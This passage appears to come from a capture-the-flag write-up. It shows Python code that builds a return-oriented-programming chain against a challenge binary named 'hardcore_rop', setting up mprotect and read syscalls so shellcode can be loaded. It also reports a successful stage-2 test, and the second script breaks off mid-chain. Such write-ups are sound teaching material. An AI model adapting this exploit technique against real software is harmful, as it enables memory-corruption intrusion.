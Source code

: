 ```python
# length in ecx, needs to be multiple of 2
payload += p(BASE + popecx)
payload += p(0x1000)

# call syscall int 0x80
payload += p(BASE + int80h)

# stage2 test
# edi = 0xf000000
payload += p(BASE + popedi)
payload += p(BASE)
# edx = 0xcccccccc (four times int 0x3)
payload += p(BASE + popedx)
payload += p(0xcccccccc)
# RET: 0x0002770: mov [edi], dh; ret
payload += p(BASE + 0x0002770)
# return to 0xf000000, which should contain an int 0x3
payload += p(BASE + popedx + 1)
payload += p(BASE)

print payload
## Usage: $ python ropsploit.py | ./hardcore_rop `pwd`
```

After running this first POC, the binary indeed crashed with a SIGTRAP error! Inspection of the core dump with `gdb` showed that the first byte of `0xf000000` was a `0xcc`, so this worked! 

Writing the shellcode one byte at a time seemed tedious. Furthermore, the ROP chain has a maximum of 555 bytes, so a more flexible way was to use `syscall_read`. This will allow us to read in arbitrary shellcode. All the necessary gadgets were present:

```python
#!/usr/bin/python

import time, struct

BASE = 0xf000000
popeax = 0x000913f
popecx = 0x0003c7e
popedx = 0x0002393
popebx = 0x000964d
popedi = 0x0000569
int80h = 0x0000d64
int03h = 0x0001b11

def p(x):
	return struct.pack("<L", x)
	
payload = ""

# seed value
payload += "0347\n"

# overflow buffer
payload += "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

# eax = syscall_mprotect
payload += p(BASE + popeax)
payload += p(125)
# pointer to memory region in ebx
payload += p(BASE + popebx)
payload += p(BASE)
# memory flags PROT_READ | PROT_WRITE | PROT_EXEC
payload += p(BASE + popedx)
```